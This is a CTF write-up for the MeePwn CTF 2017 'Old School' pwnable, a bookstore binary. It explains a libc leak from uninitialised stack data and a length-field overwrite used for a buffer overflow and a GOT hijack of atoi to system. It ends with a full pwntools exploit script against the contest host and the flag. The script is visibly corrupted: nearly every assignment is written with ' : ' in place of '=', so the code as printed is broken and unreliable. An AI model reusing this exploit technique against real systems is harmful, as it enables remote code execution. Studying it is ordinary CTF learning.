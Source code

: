 ```yaml
---
type: ctf
title : MeePwn CTF 2017 - Old School
tags: [MeePwn CTF, Old School]
date : 2017-07-16
author: Eno Leriand
featuredImage: https://ctftime.org/media/events/meepo_size_lon_.png
---
```


**Category:** Pwnable

64 bit ELF, Partial RELRO, NX enabled, No PIE, has canary.  

```
-------- BookStore --------
1.       Add Book.
2.       Edit Book.
3.       Delete Book.
4.       Show Books.
5.       Exit.
```

As we can see we can add, edit, delete or show a book. Books are stored in a pointer array `books`, each pointer point to a `book` data structure:  

```c
struct book{
    char book_name[32];
    char author[32];
    int desc_len;
    char desc[256];
}
```

The `books` array and each `book` pointer are all placed on the stack memory.  

The program did not initialize the `book` variable before setting its data. Since there's a libc address ( `<atoi + 0x10>` ) in it, we can leak the libc address by entering 4 characters in the description:  
```
Choice:4
------------ 1 ------------
Name: 11111111
Author: 11111111
Description: AAAA�N���
-------- BookStore --------
1.       Add Book.
2.       Edit Book.
3.       Delete Book.
4.       Show Books.
5.       Exit.
```

After done some fuzzing, I also found that if we input 32 characters in `book_name` and `author` ( no newline ) , the `desc_len` will be overwritten with our input, and become a large integer. Since when we edit the book description, the length to read is depend on the `desc_len` data, this make us able to overflow the `book->description` buffer and overwrite the pointers in the `books` array !  

So here's how I exploit the service:
1. First leak the libc address
2. Overwrite the `desc_len` data
3. Overflow the `books[0]->desc` buffer and overwrite `books[0]`, let it point to the GOT section
4. Edit `books[0]` and do the GOT hijacking ( hijack atoi to system )


The exploit at the local side worked, but for some unknown reason, the service at the remote side has a different behavior: during the last step of the exploitation, it won't let us input the `author` data, thus failing our exploit. Although we can still pwn it by not entering the author's name, it still took me a while to debug the whole process.  

```python exp_oldschool.py
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

HOST : "139.59.244.42"
PORT : 31340
ELF_PATH : "./oldschool_noalarm"
LIBC_PATH : "./libc6_2.23-0ubuntu7_amd64.so"

context.binary : ELF_PATH
context.log_level : 'INFO' # ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.terminal : ['tmux', 'splitw'] # for gdb.attach

elf : context.binary # context.binary is an ELF object
libc : ELF(LIBC_PATH)

def add_book(book, author, dlen, desc):
    r.sendlineafter("Choice:", "1")
    r.sendafter("name:", book)
    r.sendafter("uthor:", author)
    r.sendlineafter("tion:", str(dlen))
    r.sendafter("tion:", desc)

def edit_book(idx, book, author, desc):
    r.sendlineafter("Choice:", "2")
    r.sendlineafter("?", str(idx))
    r.sendafter("name:", book)
    r.sendafter("uthor:", author)
    r.sendafter("tion:", desc)

def del_book(idx):
    r.sendlineafter("Choice:", "3")
    r.sendlineafter("?", str(idx))

def show_book():
    r.sendlineafter("Choice:", "4")


if __name__ == "__main__":

    r : remote(HOST, PORT)
   
    book, author : "1"*8+"\n", "a"*8+"\n"  
    add_book(book, author, 100, "AAAA\n")
    show_book()
    
    # leak libc
    r.recvuntil("AAAA")
    libc.address : u64(r.recv(6).ljust(8, "\x00")) - libc.symbols['atoi'] - 0x10
    log.success("libc_base: "+hex(libc.address))

    del_book(1)
    book, author : "1"*32, "a"*32  
    # make book[0]->size : very big
    # later when we edit book[0]->desc, it will overwrite the pointer of book[0]
    add_book(book, author, 100, "AAAA\n")
   
    # edit book[1]->desc, overwrite book[0]
    # change book[0]->name to got section
    # later we can edit book[0] & do GOT hijacking
    payload : "i"*503 + "\x00" + p32(1) + p64(0x602028) + "\n"
    edit_book(1, "1\n", "1\n", payload)

    # overwrite atoi to system
    payload : "i"*4 + p64(libc.symbols['system']) + "\n"
    book, author, desc : p64(0x400706)[:6:] , p64(0x4006f6)[:6:], payload
    r.sendlineafter("Choice:", "2")
    r.sendlineafter("?", "1")
    r.sendafter("name:", book)
    # don't know why author won't read input.....
    #r.sendafter("uthor:", author)
    r.sendafter("tion:", desc)
 
    r.sendline("sh")
    r.interactive()

```

flag: `MeePwnCTF{0ld_sch00ld_C4n4ry_1s_0n_th3_st4ck}`


